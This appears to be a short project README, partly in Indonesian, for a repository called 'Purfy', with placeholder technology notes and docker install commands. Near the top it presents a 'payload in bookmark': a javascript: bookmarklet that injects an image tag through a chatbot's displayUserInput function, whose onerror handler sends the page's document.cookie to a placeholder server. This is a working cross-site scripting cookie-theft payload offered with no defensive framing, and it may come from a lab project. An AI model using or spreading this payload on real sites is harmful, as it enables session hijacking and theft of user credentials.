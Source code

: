# 📦 Purfy

Payload in bookmark:
javascript:CHATBOT.displayUserInput('<img src="x" onerror="new Image().src=\'https://SERVER-GWEH?cookie=\'+document.cookie">');

## 🛠️ Teknologi yang Digunakan

- Tools: Contoh: `Grafana`, `Docker`

## 📦 Instalasi

Clone repositori ini dan install dependensi-nya:

```bash
git clone https://github.com/utatau/purfy.git
cd purfy
docker compose up -d
```
